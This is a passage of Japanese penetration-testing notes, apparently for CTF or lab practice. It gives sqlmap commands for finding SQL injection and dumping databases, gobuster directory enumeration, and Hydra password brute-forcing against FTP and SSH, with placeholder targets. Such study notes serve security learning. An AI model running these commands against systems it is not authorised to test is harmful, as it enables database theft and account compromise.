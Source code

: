#### HTTP POSTベース

- リクエスト内容をtxt等で保存する

```bash
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
sqlmap -r req.txt -D <database_name> -T <table_name> --columns
sqlmap -r req.txt -p -D <database_name> --dump-all
```

```bash
# 存在するURLを調査
gobuster dir -u [target IP] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
# 存在するURLにSQLインジェクション
sqlmap -u [target URL] --current-user # DBのカレントユーザを取得
sqlmap -u [target URL] --dbs # DB名を取得
sqlmap -u [target URL] -D [DB name] --tables # テーブル名を取得
sqlmap -u [target URL] -D [DB name] -T [Table name] --dump # テーブル内容を酒盗
```

## Hydra

Hydra公式ページ: <https://en.kali.tools/?p=220>

### 対応プロトコル

Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST,
HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST,
HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID,Oracle, PC-Anywhere,
PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5,
SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP

### Hydra使い方

#### FTP

```bash
hydra -l <username> -P <full path to pass> ftp://MACHINE_IP
```

#### SSH

```bash
# SSH時はスレッドは16→4と推奨値まで落とす
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh
```

- l: ユーザー名
- -P: パスワードリストのファイルパス
- -t: スレッド数（デフォルト16）
